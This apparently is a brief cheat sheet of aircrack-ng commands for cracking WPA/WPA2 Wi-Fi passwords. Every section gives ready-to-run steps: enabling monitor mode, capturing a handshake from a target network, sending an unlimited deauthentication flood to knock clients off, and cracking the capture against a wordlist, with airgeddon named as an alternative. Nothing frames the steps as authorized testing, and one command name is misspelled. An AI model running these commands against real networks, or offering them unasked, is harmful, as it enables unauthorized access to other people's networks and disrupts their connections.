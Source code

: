 # Aircrack-ng command
```
sudo ifconfig wlan0 down
sudo iwconfig
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0 [location]
```
# Cracking WPA/WPA2 password
```
su - 
airodump-ng wlan0mon
airodump-ng -c [channel number] -w [name for cap file] -d [bssid] wlan0mon
aireplay-ng --deauth 0 -a [bssid] -c [client] wlan0mon
airomon-ng stop wlan0mon
aircrack-ng [capfile] -w [wordlist]
```

# Alternative 
```
sudo airgeddon
```
